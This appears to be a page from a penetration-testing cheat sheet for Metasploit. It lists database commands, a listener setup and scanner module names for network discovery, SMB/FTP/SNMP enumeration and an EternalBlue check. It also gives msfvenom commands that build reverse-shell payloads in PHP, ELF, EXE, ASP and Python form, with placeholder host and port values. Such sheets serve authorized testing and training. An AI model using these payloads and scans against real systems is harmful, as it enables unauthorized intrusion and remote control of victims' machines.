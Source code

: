 ```bash
vulns
workspace

# Using database hosts for a module
hosts -R
services -S <search_term>
```

### 🎯 Msfvenom

- **Note:** stageless payloads user underscores in the name '_' like `shell_reverse_tcp`

```bash
# Listener for reverse callbacks
use exploit/multi/handler

set payload <PAYLOAD>  # should match msfvenom
set lhost <LISTEN_IP>
set lport <LISTEN_PORT>

# Msfvenom commands
msfvenom -l payloads
msfvenom --list formats
msfvenom -p php/meterpreter/reverse_tcp LHOST=<TARGET> -f raw -e php/base64  # NOTE: need to add <?php ?> tags to file
msfvenom -p php/reverse_php LHOST=<TARGET> LPORT=<TARGET_PORT> -f raw > reverse_shell.php  # NOTE: need to add <?php ?> tags to file
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<TARGET> LPORT=<TARGET_PORT> -f elf > rev_shell.elf
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<TARGET> LPORT=<TARGET_PORT> -f exe > rev_shell.exe
msfvenom -p php/meterpreter_reverse_tcp LHOST=<TARGET> LPORT=<TARGET_PORT> -f raw > rev_shell.php
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<TARGET> LPORT=<TARGET_PORT> -f asp > rev_shell.asp
msfvenom -p cmd/unix/reverse_python LHOST=<TARGET> LPORT=<TARGET_PORT> -f raw > rev_shell.py
```
### 🔍 Scans

```bash
# === Discovery Scans ===
# ARP Sweep
auxiliary/scanner/discovery/arp_sweep
# UDP Sweep
auxiliary/scanner/discovery/udp_sweep
# TCP Port Scan
auxiliary/scanner/portscan/tcp

# === Enumeration Scans ===
# SMB User Enumeration
auxiliary/scanner/smb/smb_enumusers
# SMB Share Enumeration
auxiliary/scanner/smb/smb_enumshares
# SMB Version Enumeration
auxiliary/scanner/smb/smb_version
# FTP Version
auxiliary/scanner/ftp/ftp_version
# SNMP Enumeration
auxiliary/scanner/snmp/snmp_enum
# HTTP Version
auxiliary/scanner/http/http_version

# === Vulnerability Checks ===
# EternalBlue MS17-010 Vulnerability Check
auxiliary/scanner/smb/smb_ms17_010
```